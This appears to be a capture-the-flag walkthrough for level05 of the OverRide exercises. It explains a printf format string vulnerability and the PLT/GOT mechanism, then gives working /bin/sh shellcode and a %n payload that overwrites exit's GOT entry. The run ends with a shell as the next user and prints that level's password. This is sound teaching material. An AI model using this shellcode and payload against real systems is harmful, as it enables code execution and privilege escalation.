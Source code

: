 # Level05

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    char buffer[100]; // 0x28(%esp)
    int i = 0; // 0x8c(%esp)

    fgets(buffer, 100, stdin);
    i = 0;

    while (i < strlen(buffer))
    {
        if (buffer[i] > 0x40 && buffer[i] <= 0x5a) // 0x40 is '@', 0x5a is 'Z' aka if the character is uppercase
            buffer[i] ^= 0x20; // XOR with 0x20 (32) makes it lowercase
        i++;
    }

    printf(buffer);
    exit(0);
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However, the `printf` function is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability. Please refer to the [level02 walkthrough](../level02/walkthrough.md) for a detailed explanation of the format string vulnerability.

In this exercise, we have to write the address of our shellcode into the value that the GOT entry address for `exit` points to. This only works because `exit` is a function in the Procedure Linkage Table (PLT), a mechanism used in dynamic linking to call external functions. When a function like `exit` is called, the PLT initially redirects to the Global Offset Table (GOT) entry for the function, which then points back to the PLT and subsequently to the dynamic linker for the first call. Once the dynamic linker has been called, the GOT is updated with the address of the function, and the next time the function is called, the GOT will point directly to the function.
> Read more about that [here](https://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got).

Here you see the disassembly of the `exit` function:
```bash
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

The PLT is the set of instructions you see (`jmp`, `push`, `jmp`).  
The GOT entry for the `exit` function is referenced by the address `0x80497e0`, which is used in the indirect jump instruction.

The `jmp *0x80497e0` instruction dereferences the address stored at `0x80497e0` and jumps to it. After our tampering, this will be the address of our shellcode.

So, first let's locate our input string on the stack:
```bash
level05@OverRide:~$ python -c 'print("AAAA %x %x %x %x %x %x %x %x %x %x")' | ./level05 
aaaa 64 f7fcfac0 f7ec3af9 ffffd6ef ffffd6ee 0 ffffffff ffffd774 f7fdb000 61616161
```

In this output, 41414141, the hexadecimal representation of 'AAAA', is found at the tenth position.

Then, we need to set up our shellcode by exporting it as an environment variable:
```bash
export EXPLOIT=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

We'll use the following C program to find the address of the environment variable:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```
```
level05@OverRide:/tmp$ ./env 
0xffffd82f
```
> That address will be different for you, you'll have to change it in the payload.

`0xffffd82f` in decimal is `4294957103`, that's bigger than INT_MAX therefore we'll have to cut it in half (2 bytes / 2 bytes).
> This is because the field width (or precision) of the `%n` format specifier is a 32-bit integer, so it can only handle values up to `INT_MAX` (2147483647).

Therefore, we'll have to write `0xffff` and `0xd82f` in the address `0x80497e0` and `0x80497e2` respectively. `0xffff` in decimal is `65535` and `0xd82f` in decimal is `55343`.
Let's construct our payload logic:
```
0x80497e0 / 0x80497e2
55343 (to write into 0x80497e0) + 65535 (to write into 0x80497e2)

Now because we already wrote 55343 bytes, we need to write 65535 - 55343 = 10192 bytes for the second value.
Futhermore, we already wrote 8 bytes for the adresses of the got entry for `exit` therefore 55343 - 8 = 55335 bytes for the first value.

Let's fix that:
0x80497e0 / 0x80497e2
55335 / 10192
```

Our actual payload:
```bash
(python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55335x%10$n%10192x%11$n")'; cat)| ./level05
```

Let's run it:
```bash
(python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55335x%10$n%10192x%11$n")'; cat)| ./level05
[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

We are now level06! Let's move on to the next level.